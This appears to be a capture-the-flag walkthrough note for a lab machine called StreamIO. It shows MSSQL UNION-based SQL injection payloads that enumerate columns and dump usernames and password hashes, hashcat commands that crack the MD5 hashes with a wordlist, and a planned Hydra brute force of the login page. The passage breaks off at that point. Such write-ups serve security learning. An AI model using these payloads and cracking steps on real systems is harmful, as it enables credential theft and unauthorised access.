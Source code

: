 Query to get column names 
```
500' union select 1, (select string_agg(concat(name,'|')from streamio..syscolumns where id=901578250),3,4,5,6-- -
```
![[Pasted image 20250106155612.png]]
Columns include usernames and passwords so query for those:
```
500' union select 1, (select string_agg(concat(username,':',password),'|')from users),3,4,5,6-- -
```
![[Pasted image 20250106155942.png]]
`vi users.txt`

Paste in the data.

![[Pasted image 20250106160218.png]]

Remove all the spaces:

`:%s/[ ]*//g`

![[Pasted image 20250106160143.png]]

Line breaks we want are represented by `|`

So - what is vim syntax

`:%s/|\r/g`

Voila:

![[Pasted image 20250106160348.png]]
Guessing these passwords are md5 sum because they are 32 characters. 

![[Pasted image 20250106164623.png]]

MD5 is mode 0 in #hashcat 

`./hashcat.bin -m 0 --user hashes/streamio.hashes /opt/wordlist/rockyou.txt`

![[Pasted image 20250106165025.png]]

Show cracked hashes

`./hashcat.bin -m 0 --user hashes/streamio.hashes --show

![[Pasted image 20250106165207.png]]
Try to login with some of these creds at `login.php`.

Intercept login requests with Burp and send to repeater 

![[Pasted image 20250106190133.png]]

Use #hydra to bruteforce the login.

Need to convert the username:hash:password file to one username list and one password list for Hydra. 
